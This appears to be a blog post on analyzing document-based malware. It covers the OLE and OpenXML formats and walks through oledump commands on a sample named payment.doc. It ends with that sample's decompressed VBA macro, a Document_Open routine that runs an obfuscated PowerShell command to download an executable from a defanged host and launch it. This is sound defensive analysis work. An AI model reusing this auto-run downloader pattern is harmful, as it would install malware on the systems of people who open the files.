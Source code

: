 <https://olefile.readthedocs.io/en/latest/OLE_Overview.html>

-   `.doc`, not `.docx`.
-   OLE = Object Linking and Embedding
-   Tree of linked objects
    -   Objects can be of stream or storage type
-   Office 2003-1997
-   Magic bytes `D0 CF 11 E0 A1 B1 1A E1`
-   Macros and the text content are all stored in file objects that are themselves stored in folder objects

![OLE tree structure example, from https://olefile.readthedocs.io/en/latest/_images/OLE_VBA_sample.png](/static/images/2020-04-27-analyzing-document-based-malware/OLE_VBA_sample.png)

### OpenOffice XML

-   Compressed ZIP file with a different extension, rename to `*.zip`
-   Try it out with a docx file!

## Analyzing malware

### The files

TODO give list of files in github

### payment.doc notes

- `oledump payment.doc`
- interesting that there are macros, viewing number 5/6 should yield interesting results.
- number 7: capital M `7: M`
- `oledump payment.doc -s 7` to view dump of macro. It appears to load malicious code from the web.
- `oledump payment.doc -s 7 -d` will show a columnar hexdump.

#### `oledump payment.doc -s 7 -v`

This gives decompressed vba code!

{% highlight vb linenos %}
Attribute VB_Name = "ThisDocument"
Attribute VB_Base = "1Normal.ThisDocument"
Attribute VB_GlobalNameSpace = False
Attribute VB_Creatable = False
Attribute VB_PredeclaredId = True
Attribute VB_Exposed = True
Attribute VB_TemplateDerived = True
Attribute VB_Customizable = True
Private Sub Document_Open()
Shell ("cmd.exe /c PoWerSHElL (nEW-oBjEcT sYsTeM.neT.wEBcLiEnT).dOWNLOadfIlE('hxxp://<REDACTED>/NDGAFV.exe','%Appdata%\playa.exe');&start %Appdata%\playa.exe& exit")
End Sub
{% endhighlight %}
